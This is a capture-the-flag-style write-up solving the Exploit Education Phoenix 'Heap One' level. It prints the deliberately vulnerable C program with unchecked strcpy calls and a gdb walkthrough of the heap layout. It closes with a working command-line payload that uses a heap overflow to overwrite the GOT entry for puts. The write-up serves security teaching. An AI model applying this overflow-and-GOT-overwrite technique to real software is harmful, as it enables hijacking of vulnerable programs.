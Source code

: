 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Heap One"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct heapStructure {
  int priority;
  char *name;
};

int main(int argc, char **argv) {
  struct heapStructure *i1, *i2;

  i1 = malloc(sizeof(struct heapStructure));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct heapStructure));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}

void winner() {
  printf(
      "Congratulations, you've completed this level @ %ld seconds past the "
      "Epoch\n",
      time(NULL));
}
```

This code uses **strcpy** without size checking just like the previous level, but there is not function pointer here to overwrite.

Let's look at the memory layout, remember that **malloc** returns the allocation address in **eax** so we can set breakpoints after each call to get **i1** and **i2** addresses (also these two addresses are stored at **ebp-0xc** and **ebp-0x10**).

```
$ gdb -q /opt/phoenix/i486/heap-one
Reading symbols from /opt/phoenix/i486/heap-one...(no debugging symbols found)...done.

gef➤  b *0x08048883
Breakpoint 1 at 0x8048883

gef➤  r AAAA BBBB
Starting program: /opt/phoenix/i486/heap-one AAAA BBBB
Breakpoint 1, 0x08048883 in main ()

gef➤  x/xw $ebp-0xc
0xffffd6fc:	0xf7e69008

gef➤  x/xw $ebp-0x10
0xffffd6f8:	0xf7e69028

gef➤  x/12xw 0xf7e69008
0xf7e69008:	0x00000001	0xf7e69018	0x00000000	0x00000011
0xf7e69018:	0x41414141	0x00000000	0x00000000	0x00000011
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011

gef➤  x/12xw 0xf7e69028
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011
0xf7e69038:	0x42424242	0x00000000	0x00000000	0x000fffc1
0xf7e69048:	0x00000000	0x00000000	0x00000000	0x00000000
```

We can see that **i1** is at **0xf7e69008**, first value **priority** is **0x1** and second value is **name** address returned from **malloc(8)** which is **0xf7e69018** and we can see that **strcpy** is writing to that address.

So if we overflow **i1** to write to **name** address of **i2** we can overwrite any value in memory with the value of **argv[2]**, but what to overwrite ???

```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x0804887e <+169>:	push   0x804ab70
=> 0x08048883 <+174>:	call   0x80485b0 <puts@plt>
   0x08048888 <+179>:	add    esp,0x10
```

You guessed it (I hope), we will overwrite the **GOT** entry of the **puts** function to point to **winner** function.

```
$ objdump -R /opt/phoenix/i486/heap-one | grep puts
0804c140 R_386_JUMP_SLOT   puts

$ objdump -t /opt/phoenix/i486/heap-one | grep winner
0804889a g     F .text	00000027 winner
```

**puts** is at **0x0804c140** and **winner** is at **0x0804889a**, and the needed offset = 0xf7e6902c - 0xf7e69018 = 20 bytes.

Note that in the assembly, **winner** function uses **printf** not **puts** so we can safely overwrite **puts** function.

# Solution:

```
$ /opt/phoenix/i486/heap-one $(python -c "print 'A'*20 + '\x40\xc1\x04\x08'") $(python -c "print '\x9a\x88\x04\x08'")
Congratulations, you've completed this level @ 1580310733 seconds past the Epoch
```
